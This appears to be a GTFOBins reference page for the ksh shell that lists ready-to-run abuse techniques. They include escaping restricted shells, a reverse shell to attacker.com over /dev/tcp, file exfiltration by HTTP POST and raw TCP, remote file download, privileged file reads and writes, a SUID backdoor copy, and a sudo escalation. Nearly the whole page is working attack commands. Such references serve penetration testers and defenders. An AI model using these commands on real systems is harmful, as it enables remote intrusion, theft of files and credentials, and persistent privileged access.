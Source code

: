 # GTFOBin: ksh

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
ksh
```

## Reverse shell

It can send back a reverse shell to a listening attacker to open a remote network access.

Run `nc -l -p 12345` on the attacker box to receive the shell.

```
export RHOST=attacker.com
export RPORT=12345
ksh -c 'ksh -i > /dev/tcp/$RHOST/$RPORT 2>&1 0>&1'
```

## File upload

It can exfiltrate files on the network.

Send local file in the body of an HTTP POST request. Run an HTTP service on the attacker box to collect the file.

```
export RHOST=attacker.com
export RPORT=12345
export LFILE=file_to_send
ksh -c 'echo -e "POST / HTTP/0.9\n\n$(cat $LFILE)" > /dev/tcp/$RHOST/$RPORT'
```

Send local file using a TCP connection. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file.

```
export RHOST=attacker.com
export RPORT=12345
export LFILE=file_to_send
ksh -c 'cat $LFILE > /dev/tcp/$RHOST/$RPORT'
```

## File download

It can download remote files.

Fetch a remote file via HTTP GET request.

```
export RHOST=attacker.com
export RPORT=12345
export LFILE=file_to_get
ksh -c '{ echo -ne "GET /$LFILE HTTP/1.0\r\nhost: $RHOST\r\n\r\n" 1>&3; cat 0<&3; } \
    3<>/dev/tcp/$RHOST/$RPORT \
    | { while read -r; do [ "$REPLY" = "$(echo -ne "\r")" ] && break; done; cat; } > $LFILE'
```

Fetch remote file using a TCP connection. Run `nc -l -p 12345 < "file_to_send"` on the attacker box to send the file.

```
export RHOST=attacker.com
export RPORT=12345
export LFILE=file_to_get
ksh -c 'cat < /dev/tcp/$RHOST/$RPORT > $LFILE'
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
export LFILE=file_to_write
ksh -c 'echo DATA > $LFILE'
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

It trims trailing newlines.

```
export LFILE=file_to_read
ksh -c 'echo "$(<$LFILE)"'
```

It trims trailing newlines.

```
export LFILE=file_to_read
ksh -c $'read -r -d \x04 < "$LFILE"; echo "$REPLY"'
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which ksh) .

./ksh -p
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo ksh
```